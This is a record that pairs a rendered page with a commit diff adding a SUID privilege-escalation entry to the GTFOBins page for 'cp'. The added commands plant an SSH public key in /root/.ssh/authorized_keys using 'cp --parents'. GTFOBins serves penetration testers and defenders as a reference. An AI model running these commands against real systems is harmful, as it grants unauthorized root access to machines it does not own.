

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cp.md, in a window 1280 px wide and 900 px high, scrolled down 777 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1487 px from its top, so only the background shows below that.

Commit message:
Added new suid PrivEsc method to cp.md
This takes advantage of the --parents flag, allowing for creating of directories within a restricted filesystem, and copying files into them.

For example, creating /root/.ssh/ and copying a custom authorized_keys inside, allowing for full RCE if SSH were open.

```diff
--- a/_gtfobins/cp.md
+++ b/_gtfobins/cp.md
@@ -18,6 +18,11 @@ functions:
         TF=$(mktemp)
         echo "DATA" > $TF
         ./cp $TF $LFILE
+    - description: This can be used to create directories and copy files into them, in this case copying a key into authorized_keys when the .ssh directory did not exist prior.
+      code: |
+        mkdir .ssh
+        echo "<public_key_here>" > .ssh/authorized_keys
+        cp --parents .ssh/authorized_keys /root
   sudo:
     - code: |
         LFILE=file_to_write
```
